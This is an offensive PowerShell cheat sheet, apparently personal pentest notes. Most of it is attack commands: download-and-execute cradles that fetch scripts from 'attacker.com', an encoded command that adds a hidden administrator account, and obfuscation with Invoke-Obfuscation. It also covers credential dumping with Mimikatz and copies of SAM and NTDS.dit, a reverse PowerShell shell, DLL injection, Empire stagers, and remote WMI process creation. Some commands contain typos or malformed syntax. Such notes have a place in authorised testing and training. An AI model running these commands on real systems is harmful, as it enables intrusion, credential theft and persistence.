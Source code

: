 ## Prerequisite
* `-ExecutionPolicy bypass -Window hidden`
## Download and Execution
#### In-Memory
* `iex (New-Object Net.WebCLient).DownloadString('<remote_file>')` - downloads and executes the remote file
* `iex (New-Object Net.WebClient).DownloadData()`
* `iex (New-Object Net.WebClient).OpenRead()`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -ping`
* __Net.WebRequest__
  * `$req=[System.Net.WebRequest]::Create("<http://attacker.com/game.ps1>")`
  * `$res=$req.GetResponse()`
  * `iex ([SYstem.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()`
* __System.Xml.XmlDocument__
  * `$xmldoc = New-Object System.Xml.XmlDocument`
  * `$xmldoc.Load("<remote_xml_file>")`
  * `iex $xmldoc.command.a.execute` - download and executes malicious PowerShell located inside XML document
* __Msxml2.XMLHTTP__
  * `$downloader = New-Object  -ComObject Msxml2.XMLHTTP`
  * `$downloader.open("GET","http://attacker.com/game.ps1",$false)`
  * `$downloader.send()`
  * `iex $downloader.responseText`
* __WinHttp.WinHttpRequest.5.1__
  * same as __Msxml2.XMLHTTP__

#### On-Disk
* __DownloadFile__
  * `$local_file="<C:\programdata\payload.exe>"` 
  * `New-Object Net.WebClient).DownloadFile($payload,$local_file)`
  * `& $local_file`
* `BTSAdmin.exe`
* `iex (New-Object Net.HttpWebRequest) - Certutil.exe -urlcache`
* `Invoke-WebRequest -Uri <target> -OutFile <filename>` - download file from target

#### Tools
* https://github.com/danielbohannon/Invoke-CradleCrafter

## Obfuscation
#### Native PS
* __EncodedCommand__
  * `$command = \`net user admin1 "password!" /add; net localgroup administrators admin1 /add\``
  * `$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
  * `$encodedCommand = [Convert]::ToBase64String($bytes)`
  * `Write-Host $encodedCommand`
  * `cmd> powershell.exe -encodedcommand <result-from-Write-Host>`

#### Tools
* https://github.com/danielbohannon/Invoke-Obfuscation
  * `$env:PSModulePath` - get modules path; copy downlaoded modules to this location
  * `Import_module Invoke-Obfuscation`
  * `Invoke-Obfuscation`
    * `Set SCRIPTBLOCK iex (New-Object Net.WebCLient).DownloadString('<remote_file>')`
    * if applying multiple methods one after another, they pile up (and potentially go above cmd.exe character count limtiation). Use `RESET` to clear previous encodings"
   
 ## Information Gathering and Recon
 #### Tools
* __PowerSploit__
  * `Invoke-Portscan` - port scan and network mapping
  * `Get-HttpStatus` - enumerate files and directories
* __Posh-SecMod__ - https://github.com/darkoperator/Posh-SecMod
  * `Invoke-ARPScan` - arp scan
  * `Invoke-ReverseDNSLookup`
  * `Resolve-HostRecord`
  * `Resolve-DNSRecord`
  * `Get-Command -Module Posh-SecMod` - see full features ofthe tool
 
## PostExploitation
#### Tools
* __Nishang__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/samratashok/nishang
  *  __Gather__ - https://github.com/samratashok/nishang#gather
     * `Copy-VSS` - copy SAM database, NTDS.dit and contents of SYSTEM reg hive
     * `Get-Information`
     * `Get-PassHints` - dump Password Hints used on the system
     * `Invoke-Mimikatz -DumpCreds` - cump clear-text credentials
  *  __Bruteforcing__ - https://github.com/samratashok/nishang/tree/master/Scan
     * `Invoke-BruteForce` -> various bruteforcing options. See `Get-Help Invoke-BruteForce`
  *  __Shells__ - https://github.com/samratashok/nishang/tree/master/Shells
     * `Invoke-PowerShellTcp` - reverse PowerShell shell
* __PowerSploit__ - run in-memory with `iex (New-Object Net.WebClient).DownloadString("")` - https://github.com/PowerShellMafia/PowerSploit
  * __PrivEsc__ - `Import-Module .\Privesc.psm1`
     * `Invoke-AllChecks`
  * __Code Execution__ - `Import-Module CodeExecution`
     * `Invoke-DLLInjection`
        - find a processes to inject DLL: `ps | ? {$_.ProcessesName -match "notepad"}`
        - Use PID from above in `Invoke-DLLInjection -ProcessID <PID> <DLL-location>`
* __PSGetSystem__ - https://github.com/decoder-it/psgetsystem
  * `Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List -Property Username,Name,Id` - identify SYSTEM processes 
* __Empire__ (implements Powershell without requiring powersell on the target machine)- https://github.com/EmpireProject/Empire
1. `uselistener` - Configure listener
   * `set CertPath <location>` -> result of running `Empire/setup/cert.sh`
3. `usestager` - Configure stager
   * `set listener <>`
4. `agents`
   * `interact <agent>`
       * `shell whoami`
       * `searchmodule <keyword>`
       * `usemodule privesc/powerup/allchecks` -> `execute`
       * `help`
#### Native PS
__Create Local Process__
* `$proc = Get-WmiObject -List Win32_process`
    * `$proc.Create("cmd.exe")`
* `Invoke-WmiMethod -Class Win32_processes -Name create -ArgumentList cmd.exe`
__Create Remote Process__
* `Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList cmd.exe -ComputerName <IP> -Credential <username>`
